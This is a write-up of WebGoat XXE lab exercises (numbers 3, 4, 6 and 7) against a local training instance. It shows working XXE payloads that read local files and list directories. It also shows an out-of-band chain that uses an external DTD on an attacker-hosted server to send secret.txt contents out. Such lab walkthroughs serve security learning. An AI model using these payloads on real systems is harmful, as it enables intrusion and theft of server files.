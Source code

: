 # XML External Entities (XXE)
## XXE
### Number 3
![XXE n.3](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/04_01.png)

To resolve this exercise you can read also this [documentation](https://portswigger.net/web-security/xxe).

We try to submit some text and with zap we can see and modify the request. As we can see it's a simple XML comment. So we can make it to list all the directory as we study in the previous blocks of this chapter.

Original Request:
```
<?xml version="1.0"?><comment> <text>ciao</text></comment>
```
New one:
```
<?xml version="1.0"?>
<!DOCTYPE user [
 <!ENTITY root SYSTEM "file:///">
]>
<comment> <text>&root;</text></comment>
```
### Number 4
![XXE n.4](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/04_02.png)

Some documentation at this [link](https://blog.netspi.com/playing-content-type-xxe-json-endpoints/).

As we can see by the solution of the previous exsercise we need to inject a xml.

We try same example and we proxy with ZAP. As we read in the link in the Resources, we can try to check if the server can read xml modifying the Content-type to: application/xml and we read the error of the response.

Now we can modify the request and add the same payload of the previous exercise.
```
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Referer: https://localhost:8080/WebGoat/start.mvc
Content-Type: application/xml
X-Requested-With: XMLHttpRequest
Content-Length: 109
DNT: 1
Connection: keep-alive
Cookie: JSESSIONID=64CA23D9D89C685F57A7AE4A8EC0FC3F
Host: localhost:8080
<?xml version="1.0"?><!DOCTYPE user [<!ENTITY root SYSTEM "file:///">]><comment><text>&root;</text></comment>
```
### Number 6
This is not a very exercise, but it is important to do to learn how to resolve the number 7. We use the 7 part to test our solution.

![XXE n.6](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/04_03.png)

We need to create a dtd file and upload it on a web server (We can use WebWolf for hosting and download the resources from \<ip\>:\<port\>/files/\<username\>/\<filename\>).

File Name: ping.dtd
```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % command "<!ENTITY ping SYSTEM 'http://<ip>:<port>/landing'>">%command;
```
Now we need to intercept a post request for the comment and modify it to match this:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [
<!ENTITY % dtd SYSTEM "http://<ip>:<port>/files/ping.dtd">
%dtd;]>
<comment>
<text>&ping;</text>
</comment>
```
Then we can go in WebWolf and see in the "Incoming Requests" there is a request with our parameters.
### Number 7
![XXE n.7](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/04_04.png)

In this case we need to find a file and then use is content as parameter for the request as we did in the 6 part.

I use Vagrant(VirtualBox) to host WebGoat so for me the ```secret.txt``` file is in ```/home/vagrant/.webgoat-8.0.0.M21/XXE/secret.txt```.

Now we need a new dtd file that contains the command of comment like in the example 6, but this time we use as parameter the content of the file.
```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % command "<!ENTITY send SYSTEM 'http://<ip>:<port>/landing?%file;'>">%command;
```
As before we intercept the POST request and modify it to match this:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe [
<!ENTITY % file SYSTEM "file:///home/vagrant/.webgoat-8.0.0.M21/XXE/secret.txt">
<!ENTITY % dtd SYSTEM "http://<ip>:<port>/files/clownfire/upload_file.dtd">
%dtd;]>
<comment>
<text>&send;</text>
</comment>
```
Now we go in the "Incoming Requests" in WebWolf and read the content of the requests ```(WebGoat 8.0 rocks...(MDsnUMzhZu))```. Now submit it to WebGoat.
